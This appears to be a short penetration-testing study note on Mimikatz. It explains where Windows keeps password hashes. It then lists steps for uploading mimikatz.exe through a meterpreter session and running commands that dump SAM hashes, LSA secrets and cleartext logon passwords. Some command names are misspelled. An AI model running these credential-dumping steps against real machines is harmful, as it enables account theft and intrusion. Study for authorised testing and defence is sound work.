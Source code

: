 - MimiKatz is a Post-Exploitation tool that extracts clear text passwords, hashes and Kerberos tickets from memory.

- The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.

- Mimikatz can be used to extract hashed from the `lsass.exe` process memory where hashes are cached.


## **What to do when we have initial access (E.g. meterpreter session):**

1. Go to Temp directory.
2. upload MimiKatz there: `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
3. then run the `shell` command.
4. go the the location of the file we uploaded and execute `Mimikatz.exe`  from there....
5. use: `lsadump::sam` this will provide more information than Kiwi would give.
6. use : `lsadump:secrets` same as the lsa_dump_secrets command from Kiwi.
7. use: `sekurelsa::logonpasswords` Might display Logon clear text passwords. 